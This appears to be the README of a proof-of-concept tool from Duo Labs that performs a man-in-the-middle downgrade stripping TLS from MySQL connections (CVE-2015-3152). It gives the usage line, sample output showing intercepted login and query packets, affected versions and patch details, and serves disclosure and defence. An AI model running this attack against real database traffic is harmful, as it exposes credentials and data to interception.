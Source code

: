 # mysslstrip

mysslstrip is a Python-based proof of concept showing how to MITM
MySQL traffic and strip SSL/TLS, as per [CVE-2015-3152](http://www.openwall.com/lists/oss-security/2015/04/29/4).

## Usage

`mysslstrip.py [-h] [-p LISTEN_PORT] [-i LISTEN_INTERFACE] dest`

## Example Output

```
[root@duo1 ~]# python2.7 mysslstrip.py -p 3307 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] Log opened.
2015-04-29 21:33:14+0000 [-] listen: 127.0.0.1:3307; connect: 127.0.0.1:3306
2015-04-29 21:33:14+0000 [-] MySQLForwardServerFactory starting on 3307
2015-04-29 21:33:14+0000 [-] Starting factory <__main__.MySQLForwardServerFactory instance at 0x7f7769912fc8>
2015-04-29 21:33:21+0000 [__main__.MySQLForwardServerFactory] Starting factory <twisted.internet.endpoints.OneShotFactory instance at 0x7f776787c248>
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: 'J\x00\x00\x00\n5.6.21\x00\x04\x00\x00\x00"l{I8{%D\x00\xff\xff\x08\x02\x00\x7f\xc0\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00fSPsur[Rg/S6\x00mysql_native_password\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\xb6\x00\x00\x01\x85\xa6\x7f@\x00\x00\x00\x01!\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00root\x00\x14U\xe7\x0b\x0cs\xb5\xf3\x00\x07&=\xa8\xa6\xf9I\xf0\x86}G\xffmysql_native_password\x00e\x03_os\x05Linux\x0c_client_name\x08libmysql\x04_pid\x042361\x0f_client_version\x065.6.21\t_platform\x06x86_64\x0cprogram_name\x05mysql'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x07\x00\x00\x03\x00\x00\x00\x02\x00\x00\x00'
2015-04-29 21:33:21+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '!\x00\x00\x00\x03select @@version_comment limit 1'
2015-04-29 21:33:21+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: "\x01\x00\x00\x01\x01'\x00\x00\x02\x03def\x00\x00\x00\x11@@version_comment\x00\x0c!\x00x\x00\x00\x00\xfd\x00\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00)\x00\x00\x04(Distributed by The IUS Community Project\x05\x00\x00\x05\xfe\x00\x00\x02\x00"
2015-04-29 21:33:27+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x16\x00\x00\x00\x03SELECT "HELLO, WORLD"'
2015-04-29 21:33:27+0000 [MySQLForwardClientProtocol,client] <class '__main__.MySQLForwardClientProtocol'> received: '\x01\x00\x00\x01\x01"\x00\x00\x02\x03def\x00\x00\x00\x0cHELLO, WORLD\x00\x0c!\x00$\x00\x00\x00\xfd\x01\x00\x1f\x00\x00\x05\x00\x00\x03\xfe\x00\x00\x02\x00\r\x00\x00\x04\x0cHELLO, WORLD\x05\x00\x00\x05\xfe\x00\x00\x02\x00'
2015-04-29 21:33:33+0000 [MySQLForwardServerProtocol,0,127.0.0.1] <class '__main__.MySQLForwardServerProtocol'> received: '\x01\x00\x00\x00\x01'
```

## Additional Information


**Is this a real vulnerability?**

Yes! Encrypt all the things. Allowing opportunistic degradation of encryption is pretty poor practice.

The vulnerability affects MySQL 5.7.2 and earlier versions, along with MySQL Connector versions 6.1.2 and earlier, all versions of Percona Server and all versions of MariaDB.

**Patch?**

It's been fixed in [MySQL 5.7.3](http://dev.mysql.com/doc/relnotes/mysql/5.7/en/news-5-7-3.html) ... but the security
patch hasn't been backported to any other version, so if you're on 5.6 like [99.99%](https://scans.io/data/umich/dadrian/backronym/banners.mysql.20150429.json) of the Internet is, you're out of
luck unless you switch to the 5.7 "preview release".

Created by [Adam Goodman](https://twitter.com/akgood) of [Duo Labs](https://labs.duosecurity.com).

**Inquiries?**

PR Inquiries: [this.is.a.really.big.deal@duosecurity.com](mailto:this.is.a.really.big.deal@duosecurity.com)  
Technical Inquiries: [this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com](mailto:this.isnt.a.big.deal.but.you.should.still.patch@duosecurity.com)  
Twitters: [@duo\_labs](https://twitter.com/duo_labs)

### References

[http://backronym.fail](http://backronym.fail)  
[https://www.duosecurity.com/blog/backronym-mysql-vulnerability](https://www.duosecurity.com/blog/backronym-mysql-vulnerability)  
[http://www.openwall.com/lists/oss-security/2015/04/29/4](http://www.openwall.com/lists/oss-security/2015/04/29/4)  
[http://www.ocert.org/advisories/ocert-2015-003.html](http://www.ocert.org/advisories/ocert-2015-003.html)  
[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3152)
